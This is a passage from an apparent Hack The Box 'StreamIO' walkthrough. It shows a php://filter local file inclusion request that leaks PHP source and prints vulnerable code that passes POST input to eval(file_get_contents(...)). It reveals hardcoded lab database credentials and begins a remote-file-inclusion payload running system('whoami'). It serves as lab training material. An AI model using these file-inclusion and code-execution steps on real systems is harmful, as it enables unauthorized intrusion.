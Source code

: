 Once you copy it and decode it to Base64, you'll get a plain source code. We can do the same for `https://streamio.htb/admin/?debug=php://filter/convert.base64-encode/resource=index.php` file.

`master.php`
```
<?php
if(isset($_POST['include']))
{
if($_POST['include'] !== "index.php" ) 
eval(file_get_contents($_POST['include']));
else
echo(" ---- ERROR ---- ");
}
?> 
```
At the bottom of the Master.php file, I notice this piece of code where the `file_get_contents` function is being called with `$_POST['include']` parameter. We have done this in the past for one of the HTB boxes only. But long story short, we would be able to execute through this parameter.

`index.php`
```
if(!isset($_SESSION['admin']))
{
	header('HTTP/1.1 403 Forbidden');
	die("<h1>FORBIDDEN</h1>");
}
$connection = array("Database"=>"STREAMIO", "UID" => "db_admin", "PWD" => 'B1@hx31234567890');
$handle = sqlsrv_connect('(local)',$connection);

?>
```

Creds found in index.php but not Winrm Shell yet. Not Even smb.

###### `Grabbing the Reverse Shell - Remote File Inclusion (RFI) Payload`
Now that we know what we can do with the `?debug=` and `$_POST['include']` parameters, Let's try to first execute simple command. Since this isn’t being included on the webserver, but rather passed through `eval` function, I won’t need the `<?php` and `?>`. 
```
# cat rce.php       
system("whoami");
```
